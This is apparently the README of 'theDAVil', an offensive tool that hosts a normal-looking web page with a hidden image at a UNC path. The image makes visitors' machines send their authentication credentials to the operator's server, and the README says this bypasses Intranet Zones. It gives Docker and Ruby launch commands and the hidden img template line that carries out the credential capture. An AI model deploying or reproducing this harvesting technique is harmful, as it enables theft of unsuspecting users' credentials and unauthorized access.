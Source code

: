 # theDAVil

Host a website with an image at a UNC path and get creds. Bypasses Intranet Zones and forces auth
over the Internet.

__A normal looking web page__

![](https://i.imgur.com/fVEv9uJ.png)


__Behind the Scenes__

![](https://i.imgur.com/o2jjw65.png)



## Usage

**With Docker**
```sh
./theDAVil.sh 192.168.99.101 443`
```

**With Just Ruby**
```sh
# If you already have a ruby dev env
bundle
ruby server.rb 192.168.99.101 443


# Else
apt install rbenv ruby-build
rbenv install 2.4.1
eval $(rbenv init -)

bundle
ruby server.rb 192.168.99.101 443
```

## Customization

Replace the `views/index.erb` with your content. Make sure you keep the template line that looks
like this:

```erb
<img src="<%= "\\\\#{@host}@#{@port}\\logo.png" %>" style="display: none" />
```
